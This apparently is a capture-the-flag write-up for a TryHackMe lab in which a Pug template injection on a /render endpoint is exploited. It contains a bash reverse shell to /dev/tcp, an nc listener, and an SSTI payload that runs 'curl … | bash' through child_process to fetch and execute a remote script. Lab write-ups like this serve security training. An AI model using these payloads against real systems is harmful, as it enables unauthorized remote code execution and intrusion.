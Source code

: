 # 82 - Templates (PUG Template exploitation \[SSTI])

Room Link --> [https://tryhackme.com/room/templates](https://tryhackme.com/room/templates)

On the Main webpage via port 5000.

<figure><img src=".gitbook/assets/image (564).png" alt=""><figcaption></figcaption></figure>

Click on the **Convert to HTML** button, it’ll convert the template to HTML.

To make it easier to visualize the request, It was a POST request to `/render` with a parameter of `template` .

<figure><img src=".gitbook/assets/image (565).png" alt=""><figcaption></figcaption></figure>

**Exploit**

A google search of `pug template injection` lead me to this:

* [Pentesting PUG](https://exploit-notes.hdks.org/exploit/web/template-engine/pug-pentesting/)
* I got payload from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

To test if the app is vulnerable to SSTI.

```bash
dking@dking ~/Downloads$ curl http://10.10.188.23:5000/render -X POST -d 'template=#{7*10}'                    
<html><head></head><body><pre>&lt;70&gt;&lt;/70&gt;</pre></body></html>%  
```

We are seeing the result for `7 * 10` .

### Initial Access

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
# create a shell.sh file with content
bash -i >& /dev/tcp/10.18.88.214/9000 0>&1

# 2
# host it with python web server.
python3 -m http.server

# 3
# setup NC listener.
nc -nvlp 9000

# 4
# execute the cmd (i used curl here).
curl http://10.10.188.23:5000/render -X POST -d 'template=#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec("curl 10.18.88.214/shell.sh | bash")}()}'
```
{% endcode %}

And got shell.

<figure><img src=".gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

Got the flag.

Done!

